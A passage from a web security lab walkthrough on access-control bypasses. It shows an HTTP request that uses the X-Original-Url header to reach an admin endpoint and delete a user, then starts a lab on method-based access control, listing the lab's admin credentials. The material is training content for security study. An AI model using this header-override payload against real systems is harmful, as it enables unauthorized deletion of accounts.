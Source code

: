 ![img](media/f24e8627ec1ad3c55cb1091cb48581c3.png)

And the we can delete the user with this payload. The parameter “username" must
be in the URL:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?username=carlos HTTP/2
X-Original-Url: /admin/delete
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/dcefc6dd5f69a7720a3cd344a32f2b50.png)

11. Method-based access control can be circumvented
===================================================

This lab implements access controls based partly on the HTTP method of requests.
You can familiarize yourself with the admin panel by logging in using the
credentials administrator:admin.
